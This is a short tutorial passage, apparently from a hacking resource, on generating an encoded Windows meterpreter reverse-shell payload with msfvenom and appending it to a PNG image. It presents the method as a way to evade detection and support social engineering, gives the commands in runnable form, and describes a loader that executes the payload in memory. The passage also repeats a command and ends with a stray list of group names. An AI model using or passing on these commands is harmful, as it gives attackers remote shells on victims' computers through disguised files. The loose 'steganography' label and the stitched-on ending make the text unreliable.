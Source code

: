Metasploit also offers the ability to embed payloads within PNG image files using msfvenom. This technique, known as steganography, can be particularly useful for evading detection and social engineering attacks.

To create a payload PNG using msfvenom, you can use a command similar to the following:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f raw -o payload.raw
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 3 -f raw | cat >payload.raw
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f exe > payload.exe
```

Then, use the following command to embed the payload into a PNG image:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 3 -f raw | cat >payload.raw
cat payload.raw >> image.png
```

**How It Works**

1. The payload is generated and encoded.
2. The encoded payload is appended to the end of a legitimate PNG file.
3. The resulting file is a valid PNG image that can be opened normally, but also contains the hidden payload.

**Executing the Payload**

To execute the payload hidden in the PNG, you would typically use a separate loader or script that:

1. Reads the PNG file
2. Extracts the appended payload data
3. Executes the payload in memory

- MatrixYcl
- D1D1a
- Hack Share
- Red and Blue Roosters
- Hacker House
- Blackie Safety